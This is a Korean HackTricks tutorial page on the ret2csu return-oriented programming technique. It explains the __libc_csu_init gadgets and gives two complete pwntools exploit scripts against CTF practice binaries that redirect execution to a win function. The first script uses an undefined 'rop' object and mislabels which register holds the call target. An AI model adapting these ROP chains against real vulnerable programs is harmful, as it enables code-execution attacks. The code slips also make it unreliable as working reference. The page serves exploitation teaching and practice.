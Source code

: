# Ret2csu

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

##

## [https://www.scs.stanford.edu/brop/bittau-brop.pdf](https://www.scs.stanford.edu/brop/bittau-brop.pdf)기본 정보

**ret2csu**는 프로그램을 제어하려고 할 때 사용하는 해킹 기술로, 프로그램의 동작을 조작하는 데 일반적으로 사용하는 **gadgets**를 찾을 수 없을 때 사용됩니다.

프로그램이 특정 라이브러리(예: libc)를 사용할 때, 프로그램의 다양한 부분이 서로 통신하는 방식을 관리하기 위한 몇 가지 내장 함수가 있습니다. 이러한 함수 중에는 우리가 잃어버린 gadgets 역할을 할 수 있는 숨겨진 보석들이 있으며, 특히 `__libc_csu_init`이라는 함수가 있습니다.

### \_\_libc\_csu\_init의 마법의 Gadgets

**`__libc_csu_init`**에는 강조할 두 가지 명령어 시퀀스(gadgets)가 있습니다:

1. 첫 번째 시퀀스는 여러 레지스터(rbx, rbp, r12, r13, r14, r15)에 값을 설정할 수 있게 해줍니다. 이들은 나중에 사용하고 싶은 숫자나 주소를 저장할 수 있는 슬롯과 같습니다.
```armasm
pop rbx;
pop rbp;
pop r12;
pop r13;
pop r14;
pop r15;
ret;
```
이 가젯은 스택에서 값을 꺼내 레지스터를 제어할 수 있게 해줍니다.

2. 두 번째 시퀀스는 우리가 설정한 값을 사용하여 몇 가지 작업을 수행합니다:
* **특정 값을 다른 레지스터로 이동**시켜 함수의 매개변수로 사용할 준비를 합니다.
* **r15와 rbx의 값을 더한 후 rbx에 8을 곱하여** 결정된 위치로 호출을 수행합니다.
```armasm
mov rdx, r15;
mov rsi, r14;
mov edi, r13d;
call qword [r12 + rbx*8];
```
3. 아마도 거기에 쓸 주소를 모르고 **`ret` 명령어**가 필요할 것입니다. 두 번째 가젯도 **`ret`로 끝날** 것임에 유의하되, 그것에 도달하기 위해서는 몇 가지 **조건**을 충족해야 합니다:
```armasm
mov rdx, r15;
mov rsi, r14;
mov edi, r13d;
call qword [r12 + rbx*8];
add rbx, 0x1;
cmp rbp, rbx
jnz <func>
...
ret
```
조건은 다음과 같습니다:

* `[r12 + rbx*8]`는 호출 가능한 함수가 저장된 주소를 가리켜야 합니다 (아이디어가 없고 pie가 없다면, 그냥 `_init` 함수를 사용할 수 있습니다):
* 만약 \_init이 `0x400560`에 있다면, GEF를 사용하여 메모리에서 그것에 대한 포인터를 검색하고 `[r12 + rbx*8]`를 \_init에 대한 포인터가 있는 주소로 설정합니다:
```bash
# Example from https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html
gef➤  search-pattern 0x400560
[+] Searching '\x60\x05\x40' in memory
[+] In '/Hackery/pod/modules/ret2_csu_dl/ropemporium_ret2csu/ret2csu'(0x400000-0x401000), permission=r-x
0x400e38 - 0x400e44  →   "\x60\x05\x40[...]"
[+] In '/Hackery/pod/modules/ret2_csu_dl/ropemporium_ret2csu/ret2csu'(0x600000-0x601000), permission=r--
0x600e38 - 0x600e44  →   "\x60\x05\x40[...]"
```
* `rbp`와 `rbx`는 점프를 피하기 위해 동일한 값을 가져야 합니다.
* 고려해야 할 생략된 pop이 있습니다.

## RDI와 RSI

ret2csu 가젯에서 **`rdi`**와 **`rsi`**를 제어하는 또 다른 방법은 특정 오프셋에 접근하는 것입니다:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt="" width="283"><figcaption><p><a href="https://www.scs.stanford.edu/brop/bittau-brop.pdf">https://www.scs.stanford.edu/brop/bittau-brop.pdf</a></p></figcaption></figure>

자세한 정보는 이 페이지를 확인하세요:

{% content-ref url="brop-blind-return-oriented-programming.md" %}
[brop-blind-return-oriented-programming.md](brop-blind-return-oriented-programming.md)
{% endcontent-ref %}

## 예시

### 호출 사용

syscall을 하거나 `write()`와 같은 함수를 호출하고 싶지만 `rdx`와 `rsi` 레지스터에 특정 값이 필요하다고 가정해 보세요. 일반적으로 이러한 레지스터를 직접 설정하는 가젯을 찾겠지만, 찾을 수 없습니다.

여기서 **ret2csu**가 등장합니다:

1. **레지스터 설정**: 첫 번째 매직 가젯을 사용하여 스택에서 값을 pop하여 rbx, rbp, r12 (edi), r13 (rsi), r14 (rdx), r15에 넣습니다.
2. **두 번째 가젯 사용**: 이러한 레지스터가 설정되면 두 번째 가젯을 사용합니다. 이를 통해 선택한 값을 `rdx`와 `rsi`(각각 r14와 r13에서)로 이동시켜 함수 호출을 위한 매개변수를 준비합니다. 또한 `r15`와 `rbx`를 제어하여 프로그램이 계산한 주소에 있는 함수를 호출하도록 할 수 있습니다. 이 주소는 `[r15 + rbx*8]`에 배치됩니다.

이 기술을 사용한 [**예시와 설명이 여기에 있습니다**](https://ir0nstone.gitbook.io/notes/types/stack/ret2csu/exploitation), 그리고 이것이 사용된 최종 익스플로잇입니다:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028

rop.raw('A' * 40)
rop.gets(RW_LOC)
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```
{% hint style="warning" %}
이전 익스플로잇은 **`RCE`**를 수행하기 위한 것이 아니라, **`win`**이라는 함수를 호출하기 위한 것입니다 (ROP 체인에서 stdin 호출로부터 `win`의 주소를 가져와 r15에 저장함) 세 번째 인수로 값 `0xdeadbeefcafed00d`를 사용합니다.
{% endhint %}

### 호출 우회 및 ret 도달

다음 익스플로잇은 [**이 페이지**](https://guyinatuxedo.github.io/18-ret2\_csu\_dl/ropemporium\_ret2csu/index.html)에서 추출되었으며, 여기서 **ret2csu**가 사용되지만 호출을 사용하는 대신 **비교를 우회하고 호출 후 `ret`에 도달합니다:**
```python
# Code from https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html
# This exploit is based off of: https://www.rootnetsec.com/ropemporium-ret2csu/

from pwn import *

# Establish the target process
target = process('./ret2csu')
#gdb.attach(target, gdbscript = 'b *    0x4007b0')

# Our two __libc_csu_init rop gadgets
csuGadget0 = p64(0x40089a)
csuGadget1 = p64(0x400880)

# Address of ret2win and _init pointer
ret2win = p64(0x4007b1)
initPtr = p64(0x600e38)

# Padding from start of input to saved return address
payload = "0"*0x28

# Our first gadget, and the values to be popped from the stack

# Also a value of 0xf means it is a filler value
payload += csuGadget0
payload += p64(0x0) # RBX
payload += p64(0x1) # RBP
payload += initPtr # R12, will be called in `CALL qword ptr [R12 + RBX*0x8]`
payload += p64(0xf) # R13
payload += p64(0xf) # R14
payload += p64(0xdeadcafebabebeef) # R15 > soon to be RDX

# Our second gadget, and the corresponding stack values
payload += csuGadget1
payload += p64(0xf) # qword value for the ADD RSP, 0x8 adjustment
payload += p64(0xf) # RBX
payload += p64(0xf) # RBP
payload += p64(0xf) # R12
payload += p64(0xf) # R13
payload += p64(0xf) # R14
payload += p64(0xf) # R15

# Finally the address of ret2win
payload += ret2win

# Send the payload
target.sendline(payload)
target.interactive()
```
### 왜 libc를 직접 사용하지 않나요?

보통 이러한 경우는 [**ret2plt**](../common-binary-protections-and-bypasses/aslr/ret2plt.md) + [**ret2lib**](ret2lib/)에 취약하지만, 때때로 libc에서 직접 찾은 가젯으로 쉽게 제어할 수 있는 것보다 더 많은 매개변수를 제어해야 할 필요가 있습니다. 예를 들어, `write()` 함수는 세 개의 매개변수를 필요로 하며, **이 모든 것을 직접 설정할 수 있는 가젯을 찾는 것은 불가능할 수 있습니다**.
